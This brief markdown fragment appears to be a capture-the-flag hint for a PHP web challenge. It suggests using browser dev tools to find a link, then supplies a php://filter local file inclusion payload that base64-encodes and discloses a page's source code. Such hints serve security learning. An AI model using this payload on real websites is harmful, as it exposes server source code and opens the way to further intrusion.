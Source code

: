 # Hint
- F12, find the tasty link
- `php://filter`
    ```shell
    ?page=php://filter/convert.base64-encode/resource=pages/index
    ```


